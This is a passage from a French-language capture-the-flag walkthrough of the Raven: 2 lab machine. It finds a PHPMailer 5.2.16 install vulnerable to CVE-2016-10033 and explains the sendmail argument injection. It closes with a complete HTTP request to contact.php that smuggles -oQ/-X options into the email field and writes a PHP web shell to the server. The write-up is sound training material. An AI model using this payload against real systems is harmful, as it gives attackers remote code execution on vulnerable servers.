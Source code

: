 Rien de bien intéressant par ici, si ce n'est le troisième flag à récupérer dans le répertoire ```/uploads/2018/11``` du site WordPress.

Le premier flag se situe quant à lui dans le fichier ```PATH``` du répertoire ```/vendor```, signe qu'il s'agit d'une bonne piste à explorer. On y retrouve des fichiers relatifs à [PHPMailer](https://en.wikipedia.org/wiki/PHPMailer), une bibliothèque logicielle d'envoi d'e-mails en PHP. Une brève recherche sur Internet révèle qu'il existe des vulnérabilités ET des exploits pour cette bibliothèque, en particulier la [CVE-2016-10033](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html) et ça tombe bien, la version de PHPMailer installée sur le serveur Raven: 2 est vulnérable, en témoignent les fichiers ```SECURITY.md``` et ```VERSION```.

```console
root@blinils:~# curl -s http://192.168.56.102/vendor/SECURITY.md | head -n 6
# Security notices relating to PHPMailer

Please disclose any vulnerabilities found responsibly - report any security problems found to the maintainers privately.

PHPMailer versions prior to 5.2.18 (released December 2016) are vulnerable to [CVE-2016-10033](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-10033)
a remote code execution vulnerability, responsibly reported by [Dawid Golunski](https://legalhackers.com).


root@blinils:~# curl -s http://192.168.56.102/vendor/VERSION
5.2.16
```

La vulnérabilité, découverte par le chercheur en sécurité [Dawid Golunski](https://twitter.com/dawid_golunski), permet d'exécuter du code malveillant à distance (_Remote Code Execution_ a.k.a. RCE). En résumé, les informations fournies par l'utilisateur, via un formulaire d'inscription ou de contact, sont injectées dans la commande ```/usr/bin/sendmail``` exécutée côté serveur. L'attaque consiste à créer un fichier de log sur le serveur avec l'option ```-X``` (dans le champ ```e-mail```), puis y adjoindre du code PHP (dans le corps du message) qui sera exécuté dans ledit fichier de log. En l'occurrence, l'exploitation du serveur Raven: 2 se fera via le formulaire ```contact.php```. 

```console
POST /contact.php HTTP/1.1
Host: 192.168.56.102
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html, */*; q=0.01
Accept-Language: fr-FR,fr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.102/contact.php
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 199
DNT: 1
Connection: close

action=submit&name=name&email="attacker\" -oQ/tmp/ -X/var/www/html/vendor/blinils.php some"@email.com&subject=subject&message=<?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>
```
